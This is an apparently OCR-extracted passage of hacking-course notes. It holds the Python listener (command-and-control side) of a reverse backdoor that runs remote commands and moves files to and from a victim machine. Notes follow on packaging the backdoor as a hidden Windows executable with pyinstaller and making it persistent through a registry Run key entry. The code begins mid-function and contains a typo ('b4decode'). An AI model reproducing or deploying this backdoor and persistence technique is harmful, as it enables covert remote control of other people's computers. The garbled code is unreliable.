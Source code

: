 ```
			json_data = b""
			try:
				json_data = json_data + self.connection.recv(1024)
				return json.loads(json_data)
			except ValueError:
				continue
		
	def remote_execute(self, command):
		self.send_json(command)
		if command[0] == "exit":
			self.connection.close()
			exit()
			
		return self.receive_json()
		
	def write_file(self, path, content):
		with open(path, "wb") as file:
			file.write(base64.b4decode(content))
			return "[+] Download Successful!"
			
	def read_file(self, path):
		with open(path, "rb") as file:
			return base64.b64encode(file.read())
		
	def run(self):
		while True:
			command = input(">> ")
			command = command.split(" ")
			
			try:
				if command[0] == "upload":
					file_content = self.read_file(command[1])
					command.append(file_content)
					
				command_result = self.remote_execute(command)
				
				if command[0] == "download" and "[-] Error" not in command_result:
					self.write_file(command[1], command_result)
					
			except Exception:
				command_result = "[-] Error occured during command execution."
				
			print(command_result)
			
listener_obj = Listener("10.0.2.16", 4444)
listener_obj.run()
```

- `pyinstaller.exe reverse_backdoor.py --onefile --noconsole`: use *pyinstaller* to convert `.py` to `.exe.`
- `wine`: allows to run Windows programs inside Linux
- `Ctrl + H`: shows hidden directories in linux
- Persistence programs start when the system starts.
- Open Registry Editor -> Computer\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run: files added here will always run on system startup
- `reg add /?`: gives help description
- `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v test /t REG_SZ /d "C:/test.exe"`: add new entry that runs everytime system starts

